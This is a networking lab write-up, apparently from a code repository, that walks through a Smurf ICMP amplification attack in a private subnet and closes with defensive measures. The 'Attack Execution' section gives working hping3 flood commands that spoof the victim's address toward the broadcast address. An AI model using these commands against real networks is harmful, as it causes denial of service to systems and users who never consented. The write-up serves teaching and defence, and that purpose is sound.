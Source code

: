 # Smurf Attack Scenario

## Overview
A Smurf attack is a type of Distributed Denial of Service (DDoS) attack that exploits Internet Control Message Protocol (ICMP) by sending spoofed ICMP echo requests to the broadcast address of a network. These requests appear to come from the victim’s IP address, causing all hosts on the network to reply to the victim and overwhelm it with traffic.

## Lab Environment Setup
- **Target (Victim)**: Web-SRV2 (192.168.1.7)  
- **Attacker**: Kali Linux (192.168.1.8)  
- **Network Devices**:  
  - AS1 Switch (192.168.1.254)  
  - Core Switch (192.168.1.253)  
  - EDGE Router (192.168.1.1)  

## Pre-Attack Configuration
1. Configure management IPs on the switches:  

```bash
AS1(config)# interface VLAN 1
AS1(config-if)# ip address 192.168.1.254 255.255.255.0
AS1(config-if)# no shutdown
AS1# debug ip icmp
```

```bash
COR(config)# interface VLAN 1
COR(config-if)# ip address 192.168.1.253 255.255.255.0
COR(config-if)# no shutdown
COR# debug ip icmp
```

2. Start Wireshark on **Web-SRV2** and apply the ICMP filter to observe incoming packets.

## Attack Execution
From the attacker machine (Kali Linux):

```bash
# Launch a Smurf attack by sending ICMP echo requests to the broadcast address
hping3 -1 --flood -a 192.168.1.7 192.168.1.255

# Alternative command with spoofing
hping3 -1 --flood --spoof 192.168.1.7 192.168.1.255
```

- The spoofed source IP (`192.168.1.7`) makes all devices on the subnet reply to Web-SRV2.  
- This generates massive ICMP traffic directed at the victim.  

## Observations
- **Web-SRV2** receives a flood of ICMP echo replies from multiple devices on the network.  
- **Wireshark (on Web-SRV2)** shows a continuous stream of ICMP packets.  
- **AS1 Switch debug** output shows ICMP packets appearing as if they originate from Web-SRV2.  
- **Core Switch debug** confirms the same, reinforcing how spoofing tricks network devices.  

## Analysis
The Smurf attack works by:  
1. Sending spoofed ICMP echo requests to the broadcast address.  
2. Making every host in the subnet send replies to the victim.  
3. Overwhelming the victim with unsolicited traffic, leading to degraded performance or complete denial of service.  

## Defensive Measures
- Disable directed broadcasts on routers (`no ip directed-broadcast`).  
- Implement **ICMP rate-limiting** to control flooding attempts.  
- Deploy **ingress filtering** to block spoofed packets at the edge of the network.  
- Monitor unusual ICMP activity with IDS/IPS solutions.  

## Conclusion
The Smurf attack highlights how attackers can exploit basic networking protocols like ICMP combined with IP spoofing. This scenario demonstrates why modern networks disable broadcast-based ICMP responses by default and enforce stricter security on Layer 3 devices.
